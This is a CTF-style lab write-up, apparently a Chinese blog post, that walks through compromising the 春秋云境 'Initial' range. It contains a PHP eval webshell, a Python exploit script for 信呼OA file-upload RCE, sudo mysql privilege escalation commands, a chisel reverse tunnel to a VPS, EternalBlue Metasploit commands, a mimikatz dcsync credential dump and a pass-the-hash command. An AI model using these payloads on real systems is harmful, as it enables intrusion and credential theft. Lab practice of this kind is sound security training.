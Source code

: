 ```yaml
---
title: 春秋云境-Initial
subtitle:
date: 2025-03-14T14:19:42+08:00
slug: 8c9f848
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 春秋云境
categories:
  - 春秋云境
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/b26f9fd59f01b8c198e5d89cdbdbf684.png)

外网打点

``` Shell
fscan -h 39.98.109.170
```



![](images/75b7336bfeb8fcde6d1a76ac6635c29d.png)

ico发现是Thinkphp

![](images/41ad37689e7c7b7cd9893aa9c6b90712.png)

Thinkphp综合利用工具

![](images/2cda5015a42cc1de1e1120ad6bfd24c5.png)

Getshell并进行传马

![](images/8c6d010e7f90dc253b9eb9bc31fe0f7d.png)

蚁剑连接

![](images/a419d62e170b68d15c58f7164ccbc2af.png)

尝试读取root，发现并没有权限

![](images/adca8dffec2ddaf0527401de69b2c80a.png)

尝试提权，suid不可利用，尝试sudo提权

![](images/3ad1c22f4b574350cf9920e0eb4ce993.png)

mysql配置了免密使用，mysql暂时拿到root权限，使用mysql -e命令即可，使用mysql -e命令查找root用户中的flag文件

``` Shell
sudo mysql -e '\! find / -name flag*'
```



![](images/c52ffdced9ffb469cd2b9624247f0d6c.png)

发现flag01.txt文件

![](images/d1059562426618ba3782e70921d3249c.png)

读取内容

``` Shell
sudo mysql -e '\! cat /root/flag/flag01.txt'
```



![](images/4b618a54fab991c70107bc187ae1f37e.png)

扫描内网，上传fscan到`/tmp`，并给予权限

![](images/eaa9c7175e9f77c29a7ac109a5585429.png)



```
chmod 777 fscan
```

查看网卡信息，并进行扫描

``` Shell
ip addr
```



![](images/e6175cc57bbd5cf7570297c69597456f.png)



``` Shell
./fscan -h 172.22.1.0/24 >> fscan.txt
```



![](images/6fe3a60941b9399c5bf52ec1524ee90a.png)

从结果可以得到目标
172.22.1.2:DC域控  
172.22.1.21:Windows的机器并且存在MS17-010 漏洞  
172.22.1.18:信呼OA办公系统
接下来搭建frp内网穿透，vps当作跳板机
上传chisel到`/tmp`，给予权限并运行

```
靶机
./chisel client vps_ip:9001 R:0.0.0.0:9002:socks

vps
./chisel server -p 9001 --reverse
```



![](images/0522a523ca8072ddc8af35cc7bbb7a00.png)



![](images/c8d57b364422ae14f96414e69d36e252.png)



代理成功，尝试访问信呼OA



![](images/dac60f4ec4f7a92855a83e5f5817156d.png)



![](images/9fbfa2a2f1c89c51877ba54bdcbcd058.png)

尝试弱口令爆破进入管理系统admin/admin123，登陆以后信呼OA存在rce，直接用exp打

``` 1.php
<?php @eval($_POST['t1ng']);?>
```

两个文件须在同一目录下

``` exp.py
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```



![](images/6be8e70fb538aafca29943133c6f5ca7.png)

蚁剑设置代理，并且按照给出路径进行连接

![](images/7ee0b9505a2d9bf4e836c8fca17068e0.png)



![](images/998afd0e487b47cd6058be4ec10c939f.png)

在`C:/Users/Administrator/flag/flag02.txt`拿到第二部分flag

![](images/dd598f94e23105fdfb157f8b107c67c2.png)

先打172.22.1.21的MS17-010的永恒之蓝
配置一下kali虚拟机的socks5代理

```
vim /etc/proxychains4.conf

内容
socks5 vps_ip 9002 
```

接下来msf打永恒之蓝

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```



![](images/d57d574f0008bf9cb865cd235ee3c56d.png)

拿到SYSTEM权限，`load kiwi`调用mimikatz模块，获取域内用户hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```



![](images/808e5419b46d82bf8ffdc4dc9451ccc0.png)

用crackmapexec打PTH拿下域控

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```



![](images/7f5326b1e7ce49a322bcd40960eff27d.png)

拿到第三段flag。

flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
